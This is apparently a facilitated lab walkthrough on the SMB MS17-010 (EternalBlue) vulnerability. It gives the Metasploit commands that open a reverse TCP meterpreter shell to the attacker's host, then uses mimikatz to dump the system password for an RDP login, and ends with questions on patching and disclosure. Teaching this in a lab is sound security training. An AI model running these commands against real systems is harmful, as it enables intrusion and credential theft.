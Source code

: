 # SMB / MS17-010

Finally let's explore the SMB service that is provided on ports 135 and 445. SMB is an old and storied protocol that has been around for as long as Windows, and is used mainly by that OS to provide network services, viz. file sharing, printing and interprocess communications, across hosts on the same network. It's gone through several major overhauls over the years so there are now 3+ versions of the protocol, each improving functionality and security. However, you will often see older versions of the protocol running in the wild due to backwards compatibility issues.

Recently, it's been all over the news for 2 reasons. In April 2017, the hacker group Shadow Brokers released a batch of illegally obtained NSA hacking tools, among which was an exploit code named Eternal Blue. Eternal Blue exploits a buffer overflow in SMBv1 to achieve inject arbitrary code into the memory of a target Windows system. Used in conjunction with another exploit in the Shadow Brokers disclosure known as Double Pulsar, an attacker can gain RCE. 

The exploit gained notoriety a scarce month after its disclosure due to its use in a piece of malware known as WannaCrypt, and more recently in the malware known as NotPetya. Both these attacks leverage the MS17-010 vulnerability to gain access to the victim system, then encrypt the target's file system in a type of attack known as ransomware.

MS17-010 is the name of the patch released by Microsoft to close this vulnerability. However, Windows 7 and Server 2008 systems which have not applied this patch are still vulnerable to attacks using this vector. We will check whether our target system is vulnerable to the attack and if so, exploit it.

We will use a tool known as the Metasploit framework. First, start the tool by typing `msfconsole` into your attacking host console. Then type the following into msfconsole:

```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set rhost [target's internal ip]
set lhost [your internal ip]
run

```

This may not work the first time. If it doesn't, type `run` again. If it continues to fail, ask for assistance from a facilitator. 

These commands tell the metasploit framework to load an attack based on the MS17-010 vulnerability and give you a reverse TCP shell to the target system. In short, this grants you a shell on the target system. Due to the nature of the target system, this means that you now have total control of the system. To see the power of this attack, once the exploit has succeeded, type the following:

```
load mimikatz
wdigest
```

You should now have the password for the system! Now return to the RDP connection to the target system from earlier. You should be able to log in using the credentials you found. Congratulations! At this point you have hacked the target and have complete ownership of the system. 

### Critical Thinking
1. What is the easiest way to protect yourself from well-known exploits such as Eternal Blue?
2. Why is it fundamentally irresponsible to disclose critical vulnerabilities like the Shadow Brokers? 
